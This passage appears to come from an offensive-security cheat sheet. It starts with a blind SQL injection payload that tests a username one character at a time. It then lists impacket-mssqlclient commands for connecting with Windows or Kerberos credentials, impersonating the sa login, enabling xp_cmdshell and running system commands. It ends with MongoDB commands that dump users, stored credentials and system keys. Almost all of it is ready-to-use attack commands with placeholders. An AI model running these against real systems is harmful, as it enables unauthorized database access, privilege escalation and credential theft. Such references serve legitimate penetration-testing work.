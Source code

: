 ```c
uid=x' OR SUBSTRING(username,1,1)='m' and ''='&auth_primary=x&auth_secondary=962f4a03aa7ebc0515734cf398b0ccd6
```

## impacket-mssqlclient

> https://github.com/fortra/impacket

### Common Commands

```c
SQL> enum_logins
SQL> enum_impersonate
```

### Connection

```c
$ impacket-mssqlclient <USERNAME>@<RHOST>
$ impacket-mssqlclient <USERNAME>@<RHOST> -windows-auth
$ impacket-mssqlclient -k -no-pass <RHOST>
$ impacket-mssqlclient <RHOST>/<USERNAME>:<USERNAME>@<RHOST> -windows-auth
```

```c
$ export KRB5CCNAME=<USERNAME>.ccache
$ impacket-mssqlclient -k <RHOST>.<DOMAIN>
```

### Privilege Escalation

```c
SQL> exec_as_login sa
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

## MongoDB

### Client Installation

```c
$ sudo apt-get install mongodb-clients
```

### Usage

```c
$ mongo "mongodb://localhost:27017"
```

### Common Commands

```c
> use <DATABASE>;
> show tables;
> show collections;
> db.system.keys.find();
> db.users.find();
> db.getUsers();
> db.getUsers({showCredentials: true});
> db.accounts.find();
> db.accounts.find().pretty();
> use admin;
```
